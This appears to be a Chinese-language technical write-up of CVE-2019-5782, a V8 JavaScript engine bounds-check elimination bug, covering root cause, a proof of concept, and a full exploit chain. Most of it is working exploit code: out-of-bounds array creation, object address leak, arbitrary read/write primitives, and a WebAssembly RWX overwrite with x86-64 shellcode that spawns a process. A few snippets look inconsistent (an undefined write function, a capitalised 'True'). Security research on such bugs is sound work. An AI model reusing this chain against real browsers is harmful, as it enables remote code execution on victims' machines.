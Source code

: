## CVE-2019-5782

这是一个v8数组越界的漏洞

### Root case

```
let x = arguments.length;

在对ArgumentsLength 节点的类型进行定义时，参数的最大个数规定为了65534，但是实际上我们是可以超过这个数字的。
Type const kArgumentsLengthType = Type::Range(0.0, Code::kMaxArguments, zone()); // kMaxArguments = 65534
```

在Load Elimination阶段将会生成ArgumentsLength节点，此时它的range为(0,65534)

在Load Elimination阶段右移节点仍为 Range(-32768, 32767)；（原因：此时还不会对Load处理，于是在第一次对NumberShiftRight进行range analysis的时候，会将其范围直接当做int32的最大和最小值。） 
在 Simplified Lowering 节点的 Type Propagation 阶段中，会调用 UpdateFeedbackType 函数（src/compiler/simplified-lowering.cc），该函数会再一次根据每个节点的输入值的类型，对 Feedback Type 进行更新，更新之后 SpeculativeNumberShiftRight的类型为Range(0,0)；

此时x的range为(0, 0)，它被作为数组的index，因为它（index）小于数组的length，所以会在VisitCheckBounds中消除CheckBounds节点。

```
void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckParameters const& p = CheckParametersOf(node->op());
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));
    if (length_type.Is(Type::Unsigned31())) {
      if (index_type.Is(Type::Integral32OrMinusZero())) {
        // Map -0 to 0, and the values in the [-2^31,-1] range to the
        // [2^31,2^32-1] range, which will be considered out-of-bounds
        // as well, because the {length_type} is limited to Unsigned31.
        VisitBinop(node, UseInfo::TruncatingWord32(),
                   MachineRepresentation::kWord32);
        if (lower()) {
          if (lowering->poisoning_level_ ==
                  PoisoningMitigationLevel::kDontPoison &&
              (index_type.IsNone() || length_type.IsNone() ||
               (index_type.Min() >= 0.0 &&
                index_type.Max() < length_type.Min()))) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            DeferReplacement(node, node->InputAt(0));
```

![](./1.png)


poc如下：

```
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1, 2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 3; i++) fun(...a4);
%OptimizeFunctionOnNextCall(fun);
fun(...a4);
res = fun(...a3);
assertEquals(16, a2.length);
for (let i = 8; i < 32; i++) {
  assertEquals(undefined, a2[i]);
}

```

漏洞点是在对fun函数的优化过程中产生的，漏洞导致了我们可以对a1数组进行越界写，从而可以将内存中紧跟在a1.elements后的a2数组做任意写，在POC中对就是对a2的length进行了修改。

既然可以通过a1修改a2的length，那我们只要将其修改为一个极大的值，那么我们就可以获得一个越界的数组a2。

数组越界的漏洞还是很常见的，利用起来也不是很难：

利用思路：

- 获得越界数组
- leak object address
- arbitrary read and write
- 利用wasm执行shellcode


##### 1 获得越界数组

poc中是调用%OptimizeFunctionOnNextCall(fun);来使fun被优化，之后发现了ray-cp师傅的代替%OptimizeFunctionOnNextCall的方法，就是下面的循环：
```
function foo(arg)
{
    let idx = arguments.length;
    idx = idx>>16;
    idx = idx * 6;
    let arr = [1.1, 2.2, 3.3];
    arr[idx] = 1.74512933848984e-310;   // overwrite the length i2f(0x202000000000)
    return arr;
}

//%OptimizeFunctionOnNextCall(foo);
for(let i=0; i<MAX_ITERATIONS; i++)
{
    foo(i);
}
var b = new Array(1<<16);
oobArray = foo(...b);
```

##### 2 leak object
``` 
objArray = {m:i2f(0xdeadbeef), target:func};
dataBuf = new ArrayBuffer(0x200);

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        break;
    }
} 

//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x200) {
        ArrayBufIdx = i + 1;
        break;
    }
}

```

可以定义一个对象：objArray，对象有两个属性,通过对target赋值为目标对象，我们通过遍历数组oobArr,找到target属性后，就可以通过oobArr[offest]的方式将它的地址泄漏出来。

```
function addrOf(obj)
{
    objArray.target=obj;
    return f2i(oobArray[ObjectIdx]) - 1;
}
```


##### 3 arbitrary read and write

```
// arbitrary read
function dataViewRead64(addr)
{
    oobArray[ArrayBufIdx]=i2f(addr);
    return f2i(dataView.getFloat64(0, true));
}

// arbitrary write
function dataViewWrite64(addr, value)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    return dataView.setFloat64(0, f2i(value), True);
}
```

aar和aaw是通过控制bk来实现的，我们之前以经找到了bk在oobArray的偏移，我们就可以通过修改bk为想要读/写的地址，之后对该对象进行读取或写入即可达到目的。


##### 4 使用wasm getshell

通过wasm找到rwx的流程：

wasmInstance.exports.main -> shared_info -> data -> instance -> RWX (instance+0xe8)

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,
    127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,
    1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,
    0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,10,11]);
var func = wasmInstance.exports.main;

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];


dataViewWrite(rwxAddr, shellcode);


func();
```

